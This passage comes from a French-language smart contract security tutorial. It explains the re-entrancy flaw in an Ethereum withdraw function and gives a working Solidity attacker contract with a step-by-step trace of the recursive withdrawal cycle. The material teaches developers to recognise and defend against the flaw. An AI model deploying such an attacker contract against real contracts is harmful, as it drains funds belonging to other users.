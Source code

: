 Pour permettre à un utilisateur de retirer l'ETH qu'il a précédemment stocké dans le contrat, cette fonction :

1. lit le solde de l'utilisateur ;
2. lui envoie le solde en ETH ;
3. réinitialise le solde à 0, de sorte que l'utilisateur ne puisse pas retirer le solde de nouveau.

Si elle est appelée à partir d'un compte normal (comme celui de votre propre compte Metamask), elle fonctionne comme prévu : msg.sender.call.value() envoie simplement l'ETH vers votre compte. Toutefois, les contrats intelligents peuvent également effectuer des appels. Si un contrat personnalisé et malveillant appelle la fonction `withdraw()`, msg.sender.call.value() n'enverra pas le montant d'ETH (via `amount`), mais appellera aussi implicitement le contrat pour commencer à exécuter du code. Imaginez le contrat malveillant suivant :

```solidity
contract Attacker {
    function beginAttack() external payable {
        Victim(VICTIM_ADDRESS).deposit.value(1 ether)();
        Victim(VICTIM_ADDRESS).withdraw();
    }

    function() external payable {
        if (gasleft() > 40000) {
            Victim(VICTIM_ADDRESS).withdraw();
        }
    }
}
```

Appeler Attacker.beginAttack() démarrera un cycle qui ressemble à quelque chose comme ça :

```
0.) Attacker's EOA calls Attacker.beginAttack() with 1 ETH
0.) Attacker.beginAttack() deposits 1 ETH into Victim

  1.) Attacker -> Victim.withdraw()
  1.) Victim reads balances[msg.sender]
  1.) Victim sends ETH to Attacker (which executes default function)
    2.) Attacker -> Victim.withdraw()
    2.) Victim reads balances[msg.sender]
    2.) Victim sends ETH to Attacker (which executes default function)
      3.) Attacker -> Victim.withdraw()
      3.) Victim reads balances[msg.sender]
      3.) Victim sends ETH to Attacker (which executes default function)
        4.) Attacker no longer has enough gas, returns without calling again
      3.) balances[msg.sender] = 0;
    2.) balances[msg.sender] = 0; (it was already 0)
  1.) balances[msg.sender] = 0; (it was already 0)
```

Appeller Attacker.beginAttack avec 1 ETH génère une nouvelle attaque par réentrance contre la victime, retirant plus d'ETH qu'il n'en a été fourni (prélevé sur les soldes des autres utilisateurs, entraînant une sous-garantie du contrat de la victime)

### Comment gérer la réentrance (de la mauvaise façon) {#how-to-deal-with-re-entrancy-the-wrong-way}
